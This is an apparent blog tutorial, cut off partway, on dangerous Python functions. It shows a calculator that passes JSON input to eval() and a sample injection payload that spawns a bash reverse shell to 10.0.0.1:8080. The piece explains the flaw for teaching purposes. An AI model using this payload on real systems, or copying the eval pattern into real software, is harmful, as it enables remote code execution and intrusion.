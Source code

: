 ```yaml
---
title: "Hacking Python Applications"
categories:
  - Hacking
---
```


And how attackers exploit common programming pitfalls to gain control.

How secure an application is has very little to do with language choice. You can program securely in languages that are prone to vulnerabilities, and do very insecure things with languages designed to be secure.

However, there are features that developers should be on the lookout for as potential weaknesses in every language. Today, let's talk about a few dangerous features that could be exploited by attackers in Python.

## Exploiting dangerous functions: eval(), exec() and input()

Dangerous functions in Python like eval(), exec() and input() can be used to achieve authentication bypass and even code injection.

### Eval()

The eval() function in Python takes strings and execute them as code. For example, eval('1+1') would return 2.

Since eval() can be used to execute arbitrary code on the system, it should never ever ever be used on any type of unsanitized user input. Let's look at a vulnerable application for example. The following calculator application uses a JSON API to accept user input:

```python
def addition(a, b):
  return eval("%s + %s" % (a, b))result = addition(request.json['a'], request.json['b'])
print("The result is %d." % result)
```

When operating as expected, the input

```python
{"a":"1", "b":"2"}
```

Would cause the program to print "The result is 3."

But since eval() would take user-provided input and execute it as Python code, a hacker could provide the application with something more malicious instead:

```python
{"a":"__import__('os').system('bash -i >& /dev/tcp/10.0.0.1/8080 0>&1')#", "b":"2"}
```

This input would cause the application to call os.system() and spawn a reverse shell back to the IP 10.0.0.1 on port 8080.

### Exec()
